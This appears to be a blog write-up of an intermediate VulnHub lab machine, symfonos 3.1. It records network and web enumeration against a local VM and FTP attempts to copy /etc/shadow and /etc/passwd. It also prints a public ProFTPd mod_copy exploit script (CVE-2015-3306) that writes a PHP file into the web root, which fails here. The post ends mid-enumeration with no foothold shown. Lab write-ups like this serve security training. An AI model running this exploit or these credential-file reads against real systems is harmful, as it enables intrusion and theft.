<html lang="en">
    <head>
        <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1">
        <title>/f0c1s/blog/sec/vulnhub/symfonos-3.1</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/symfonos-3.1</h1>

<nav>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/symfonos-3.1/symfonos-3.1.html">+ symfonos-3.1 - 2022.01.06 Thursday</a>
</nav>

## Description

> Intermediate real life based machine designed to test your skill at enumeration.
> If you get stuck remember to try different wordlist, avoid rabbit holes and enumerate everything thoroughly.
> SHOULD work for both VMware and Virtualbox.
>
> For hints you're welcome to contact me via Twitter @zayotic
>
> \## Changelog v3.1 - 2020-04-07 v3.0 - 2019-07-20

[VulnHub: https://www.vulnhub.com/entry/symfonos-31,332/](https://www.vulnhub.com/entry/symfonos-31,332/)
[Series: https://www.vulnhub.com/series/symfonos,217/](https://www.vulnhub.com/series/symfonos,217/)


## Scanning

```shell
fping -aAqg 192.168.56.1/24 | tee fping.txt
192.168.56.1
192.168.56.2
192.168.56.70
192.168.56.92

```

[fping](../../tools/fping.html)

```shell
export RHOST="192.168.56.92"
export LHOST="192.168.56.70"
export LPORT="443"

```

```shell
_n $RHOST
firing nmap 192.168.56.92 -n | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-06 09:05 IST
Nmap scan report for 192.168.56.92
Host is up (0.00022s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds

```

```shell
_ntd $RHOST
firing nmap 192.168.56.92 -p- -Pn -A -T4 --min-rate=5000 -sVC -n | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-06 09:05 IST
Nmap scan report for 192.168.56.92
Host is up (0.00034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 cd:64:72:76:80:51:7b:a8:c7:fd:b2:66:fa:b6:98:0c (RSA)
|   256 74:e5:9a:5a:4c:16:90:ca:d8:f7:c7:78:e7:5a:86:81 (ECDSA)
|_  256 3c:e4:0b:b9:db:bf:01:8a:b7:9c:42:bc:cb:1e:41:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.96 seconds

```

```shell
_nu $RHOST
firing sudo nmap 192.168.56.92 -sU -p- -Pn --min-rate=5000 --open --top-ports=500 -n | tee nmap.udp-all-ports.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-06 09:06 IST
Nmap scan report for 192.168.56.92
Host is up (0.00026s latency).
All 500 scanned ports on 192.168.56.92 are in ignored states.
Not shown: 494 open|filtered udp ports (no-response), 6 closed udp ports (port-unreach)
MAC Address: 08:00:27:D0:E8:29 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.05 seconds

```

```shell
sudo nmap $RHOST -p- -Pn -A -T4 --min-rate=5000 -sVC --script=*enum* -n | tee nmap.enum.txt
[sudo] password for f0c1s:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-06 09:22 IST
Nmap scan report for 192.168.56.92
Host is up (0.00032s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh2-enum-algos:
|   kex_algorithms: (10)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 08:00:27:D0:E8:29 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.56.92

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.10 seconds

```

## Attacking web


### nikto

```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.92
+ Target Hostname:    192.168.56.92
+ Target Port:        80
+ Start Time:         2022-01-06 09:07:18 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: f1, size: 58e15fe4052c8, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26522 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-01-06 09:08:33 (GMT5.5) (75 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

### feroxbuster

```shell
feroxbuster -q -u http://$RHOST -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
301        9l       28w      313c http://192.168.56.92/gate
301        9l       28w      322c http://192.168.56.92/gate/cerberus
Scanning: http://192.168.56.92
Scanning: http://192.168.56.92/gate
^C
```

### gobuster

```shell
gobuster dir --url http://$RHOST -x cgi,js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 404,403 -q
/gate                 (Status: 301) [Size: 313] [--> http://192.168.56.92/gate/]
/server-status        (Status: 403) [Size: 278]

```

```shell
gobuster dir --url http://$RHOST/gate/cerberus -x cgi,js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 404,403 -q

```

### dirb

```shell
dirb http://$RHOST

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jan  6 09:12:50 2022
URL_BASE: http://192.168.56.92/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.92/ ----
+ http://192.168.56.92/cgi-bin/ (CODE:403|SIZE:278)
==> DIRECTORY: http://192.168.56.92/gate/
+ http://192.168.56.92/index.html (CODE:200|SIZE:241)
+ http://192.168.56.92/server-status (CODE:403|SIZE:278)

---- Entering directory: http://192.168.56.92/gate/ ----
+ http://192.168.56.92/gate/index.html (CODE:200|SIZE:202)

-----------------
END_TIME: Thu Jan  6 09:12:52 2022
DOWNLOADED: 9224 - FOUND: 4

```

### /gate


## SSH

```shell
ssh root@$RHOST
The authenticity of host '192.168.56.92 (192.168.56.92)' can't be established.
ED25519 key fingerprint is SHA256:W2RvYQCoyTPbHNSQycwjo7k7ccOJvfWbk4WpSDnK4Dk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.92' (ED25519) to the list of known hosts.
root@192.168.56.92's password:
Permission denied, please try again.
root@192.168.56.92's password:


```

## FTP

```shell
ftp -p $RHOST 21
Connected to 192.168.56.92.
220 ProFTPD 1.3.5b Server (Debian) [::ffff:192.168.56.92]
Name (192.168.56.92:f0c1s): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
ftp: Login failed
ftp> ls
530 Please login with USER and PASS
Passive mode refused.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
530 Please login with USER and PASS
ftp: Can't bind for data connection: Address already in use
ftp> exit
221 Goodbye.

```

```shell
ftp $RHOST 21
Connected to 192.168.56.92.
220 ProFTPD 1.3.5b Server (Debian) [::ffff:192.168.56.92]
Name (192.168.56.92:f0c1s): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
ftp: Login failed
ftp> site
(arguments to SITE command) cpfr /etc/shadow
530 Please login with USER and PASS
ftp> site cpfr /etc/passwd
530 Please login with USER and PASS
ftp> exit
221 Goodbye.

```

### Atacking ProFTPd 1.3.5b

- [https://www.tenable.com/plugins/nnm/701079](https://www.tenable.com/plugins/nnm/701079)
- [https://www.exploit-db.com/exploits/36803](https://www.exploit-db.com/exploits/36803)
- [https://www.exploit-db.com/exploits/49908](https://www.exploit-db.com/exploits/49908)

```shell
searchsploit ProFTPD 1.3.5
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                        | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                              | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                          | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                        | linux/remote/36742.txt
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

### cat 49908.py

```python

# Exploit Title: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)
# Date: 25/05/2021
# Exploit Author: Shellbr3ak
# Version: 1.3.5
# Tested on: Ubuntu 16.04.6 LTS
# CVE : CVE-2015-3306

#!/usr/bin/env python3

import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /etc/passwd\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto <?php phpinfo(); ?>\r\n') # phpinfo() is just a PoC.
    print(client.recv(1024).decode())
    client.send(b'site cpfr /proc/self/fd/3\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /var/www/html/test.php\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()

```

But given the ftp interaction so far, I don't think that it will work.

```shell
python3 ./49908.py 192.168.56.92
220 ProFTPD 1.3.5b Server (Debian) [::ffff:192.168.56.92]

530 Please login with USER and PASS

503-Bad sequence of commands

503 Bad sequence of commands

530 Please login with USER and PASS

Exploit Completed
[!] Something Went Wrong
[!] Directory might not be writable

```

And it doesn't.

## Attacking web again

```shell
gobuster dir --url http://$RHOST -x cgi,js,png,py,txt,php,log,bak --wordlist=/usr/share/seclists/Discovery/Web-Content/common.txt -b 404,403 -q
/gate                 (Status: 301) [Size: 313] [--> http://192.168.56.92/gate/]
/index.html           (Status: 200) [Size: 241]

```

```shell
gobuster dir --url http://$RHOST -x js,png,py,txt,php,log,bak --wordlist=/usr/share/seclists/Discovery/Web-Content/apache.txt -b 404,403 -q
/index.html           (Status: 200) [Size: 241]
```

```shell
feroxbuster -q -u http://$RHOST -w /usr/share/seclists/Discovery/Web-Content/common.txt --rate-limit 100 -d 2 -L 4 -k
403        9l       28w      278c http://192.168.56.92/.htpasswd
403        9l       28w      278c http://192.168.56.92/.hta
403        9l       28w      278c http://192.168.56.92/.htaccess
403        9l       28w      278c http://192.168.56.92/cgi-bin/
403        9l       28w      278c http://192.168.56.92/cgi-bin/.hta
403        9l       28w      278c http://192.168.56.92/cgi-bin/.htaccess
403        9l       28w      278c http://192.168.56.92/cgi-bin/.htpasswd
301        9l       28w      313c http://192.168.56.92/gate
403        9l       28w      278c http://192.168.56.92/gate/.htpasswd
403        9l       28w      278c http://192.168.56.92/gate/.hta
403        9l       28w      278c http://192.168.56.92/gate/.htaccess
200       22l       28w      241c http://192.168.56.92/index.html
403        9l       28w      278c http://192.168.56.92/server-status
200       20l       21w      202c http://192.168.56.92/gate/index.html
Scanning: http://192.168.56.92
Scanning: http://192.168.56.92/cgi-bin/
Scanning: http://192.168.56.92/gate

```

```shell
gobuster dir --url http://$RHOST -x cgi,js,png,py,txt,php,log,bak --wordlist=/usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -b 404,403 -q
/.                    (Status: 200) [Size: 241]
/gate                 (Status: 301) [Size: 313] [--> http://192.168.56.92/gate/]

```

```shell
ffuf -u http://$RHOST/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt  -fc 403,404,401,400 -s
.
gate


```

```shell
ffuf -u http://$RHOST/FUZZ -w /usr/share/seclists/Discovery/Web-Content/apache.txt  -fc 403,404,401,400 -s
index.html


```

```shell
ffuf -u http://$RHOST/FUZZ -w /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt  -fc 403,404,401,400 -s
/index.html


```

```shell
ffuf -u http://$RHOST/gate/cerberus/FUZZ.jpg -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -fc 403,404,401,400 -s
image


```

```shell
grep -Hnr "^cerberus$" /usr/share/wordlists/*
/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt:7659:cerberus
/usr/share/wordlists/dirbuster/directories.jbrofuzz:8482:cerberus
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:8240:cerberus
/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt:7576:cerberus
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:8172:cerberus
/usr/share/wordlists/metasploit/password.lst:12213:cerberus
/usr/share/wordlists/rockyou.txt:20039:cerberus
/usr/share/wordlists/rockyou_utf8.txt:20039:cerberus
/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:5535:cerberus
/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt:5535:cerberus
/usr/share/wordlists/seclists/Miscellaneous/lang-english.txt:48842:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/dns-Jhaddix.txt:372365:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt:4364:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt:2238:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:2238:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:2331:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/shubs-subdomains.txt:25622:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:2238:cerberus
/usr/share/wordlists/seclists/Discovery/DNS/sortedcombined-knock-dnsrecon-fierce-reconng.txt:15264:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt:38429:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt:37386:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:7659:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:8240:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt:8078:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:7576:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt:32799:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt:32799:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt:37386:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt:37386:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt:33052:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/SVNDigger/all-extensionless.txt:14309:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/SVNDigger/all-dirs.txt:3816:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/SVNDigger/all.txt:24359:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:8172:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt:7510:cerberus
/usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt:32799:cerberus
/usr/share/wordlists/seclists/Passwords/dutch_passwordlist.txt:2985:cerberus
/usr/share/wordlists/seclists/Passwords/dutch_passwordlist.txt:761529:cerberus
/usr/share/wordlists/seclists/Passwords/darkc0de.txt:362009:cerberus
/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:4423:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/Ashley-Madison.txt:116161:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-70.txt:20031:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-75.txt:20031:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/alleged-gmail-passwords.txt:1058392:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-60.txt:20031:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/phpbb-cleaned-up.txt:3445:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-65.txt:20031:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/phpbb.txt:3445:cerberus
/usr/share/wordlists/seclists/Passwords/Leaked-Databases/porn-unknown.txt:834:cerberus
/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt:4423:cerberus
/usr/share/wordlists/seclists/Passwords/bt4-password.txt:497853:cerberus
/usr/share/wordlists/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt:684:cerberus
/usr/share/wordlists/seclists/Passwords/Software/cain-and-abel.txt:44400:cerberus
/usr/share/wordlists/seclists/Passwords/openwall.net-all.txt:65701:cerberus
/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt:4423:cerberus
/usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt:2298:cerberus
/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt:4423:cerberus
/usr/share/wordlists/seclists/Passwords/Honeypot-Captures/multiplesources-passwords-fabian-fingerle.de.txt:42913:cerberus
/usr/share/wordlists/seclists/Passwords/richelieu-french-top20000.txt:17199:cerberus
/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt:4422:cerberus
/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt:4422:cerberus
/usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt:4632:cerberus
/usr/share/wordlists/seclists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt:12395:cerberus
/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt:4422:cerberus
/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-dup.txt:4423:cerberus
/usr/share/wordlists/seclists/Passwords/dutch_common_wordlist.txt:766738:cerberus
/usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt:12749:cerberus

```

What came next was hours of frustration, because nothing was working.

```shell
for words in `grep -Hnr "^cerberus$" /usr/share/wordlists/* | cut -d':' -f1 | grep -v "rockyou\|password"`
do
echo $words
gobuster dir --url http://$RHOST -x cgi,js,png,py,txt,php,log,bak --wordlist=$words -b 404,403 -q&
echo "\n"
done


gobuster dir --url http://$RHOST -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/wfuzz/vulns/cgis.txt -b 404,403,400 -q -f

```

```shell
gobuster dir --url http://$RHOST -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403,400 -q -f
/gate/                (Status: 200) [Size: 202]

```

```shell
gobuster dir --url http://$RHOST/gate/ -x cgi,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403,400 -q -f
/cerberus/            (Status: 200) [Size: 202]

```

```shell
feroxbuster -q -u http://$RHOST -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k -f
403        9l       28w      278c http://192.168.56.92/icons/
403        9l       28w      278c http://192.168.56.92/cgi-bin/
403        9l       28w      278c http://192.168.56.92/icons/small/
200       20l       21w      202c http://192.168.56.92/gate/
200       20l       21w      202c http://192.168.56.92/gate/cerberus/
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_92-1641528366.state ...
Scanning: http://192.168.56.92
Scanning: http://192.168.56.92/icons/
Scanning: http://192.168.56.92/cgi-bin/
Scanning: http://192.168.56.92/gate/

```

Feroxbuster found /cgi-bin/underworld.

But I cannot find anything after that.

## 2022.01.08

```shell
curl -s https://en.wikipedia.org/wiki/Cerberus | html2text | tr " " "\n" | egrep -v "[ -~]" | sort | uniq | sort > cerberus.txt

```

```shell
wc cerberus.txt
 1967  1972 15765 cerberus.txt

```

```shell
cat cerberus.txt | tr '[:upper:]' '[:lower:]' > cerberus.lower.txt

```

```shell
wc cerberus.lower.txt
 1967  1972 15765 cerberus.lower.txt

```

```shell
cat cerberus.txt cerberus.lower.txt > cerberus.words.txt

```

```shell
wc cerberus.words.txt
 3934  3944 31530 cerberus.words.txt

```

```shell
gobuster dir --url http://$RHOST/gate/cerberus/ --wordlist=./cerberus.words.txt -q -f --wildcard -x php,cgi,bak,txt
/tartarus/            (Status: 200) [Size: 273]

```

```shell
curl -s https://en.wikipedia.org/wiki/Tartarus | html2text | tr " " "\n" | egrep -v "[ -~]" | sort | uniq | sort > tartarus.txt

```

```shell
wc tartarus.txt
 2015  2021 16188 tartarus.txt

```

```shell
cat tartarus.txt | tr '[:upper:]' '[:lower:]' > tartarus.lower.txt

```

```shell
cat tartarus.txt tartarus.lower.txt > tartarus.words.txt

```

```shell
gobuster dir --url http://$RHOST/gate/cerberus/tartarus/ --wordlist=./tartarus.words.txt -q -f --wildcard -x php,cgi,bak,txt
/acheron/             (Status: 403) [Size: 278]
/charon/              (Status: 403) [Size: 278]
/cocytus/             (Status: 403) [Size: 278]
/hermes/              (Status: 403) [Size: 278]
/phlegethon/          (Status: 403) [Size: 278]
/titanomachy/         (Status: 403) [Size: 278]

```

```shell
gobuster dir --url http://$RHOST/gate/cerberus/tartarus/ --wordlist=./cerberus.words.txt -q -f --wildcard -x php,cgi,bak,txt
/acheron/             (Status: 403) [Size: 278]
/charon/              (Status: 403) [Size: 278]
/cocytus/             (Status: 403) [Size: 278]
/hermes/              (Status: 403) [Size: 278]
/phlegethon/          (Status: 403) [Size: 278]
/titanomachy/         (Status: 403) [Size: 278]

```

The journey in web so far, in pictures...






